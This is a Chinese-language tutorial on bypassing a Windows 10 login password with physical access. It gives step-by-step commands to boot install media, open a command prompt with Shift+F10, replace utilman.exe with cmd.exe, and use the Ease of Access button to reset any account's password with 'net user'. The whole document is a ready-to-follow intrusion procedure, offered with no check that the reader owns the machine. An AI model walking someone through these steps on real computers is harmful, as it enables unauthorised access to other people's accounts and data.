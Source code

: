 # windows10密码绕过流程漏洞

windows7有5次shift漏洞，win10系统照样有。

## 准备工作

一个8GB或更大的u盘 使用 U 盘制作系统安装盘——工具地址：https://www.microsoft.com/zh-cn/software-download/windows10

![image-20230716222637493](win10绕过密码.assets/image-20230716222637493.png)

window10引导系统安转包，官网下载的！

或者使用PE系统直接快捷方便。

## 破解操作

- 第一步：启动系统

完成后u盘插入要绕过密码的计算机 

重新启动进入BIOS通过u盘启动

不同电脑进入BIOS的按键不一样，需要自己上网查

之后会进入win10安装向导 按下shift+f10

弹出cmd命令窗口

我们需要更改utilman.exe所在位置

- 第二步：获取所有可用的驱动器

```powershell
wmic logicaldisk get name
```

![image-20230716222149579](win10绕过密码.assets/image-20230716222149579.png)

选择c盘，输入如下命令

```powershell
C:
```

![image-20230716222312165](win10绕过密码.assets/image-20230716222312165.png)

读取目录列表，输入如下命令：

```powershell
dir
```

![image-20230716222355007](win10绕过密码.assets/image-20230716222355007.png)

导航到Windows（如果没有Windows的文件夹，换其它盘看看）

```powershell
cd windows
```

进入system32

```powershell
cd system32
```

这就是utilman.exe所在位置 

我们需要更改它的名称

```powershell
ren utilman.exe utilman2.exe
```

复制cmd.exe 到utilman.exe位置

```powershell
copy cmd.exe utilman.exe
```

完成后就可以取消Windows安装 

- 重新进入系统

按任意键进入Windows系统 

现在我们点击右下角这个轻松访问就能弹出cmd窗口了 

- 最后一步：修改密码

```powershell
net user 用户名 新密码
```

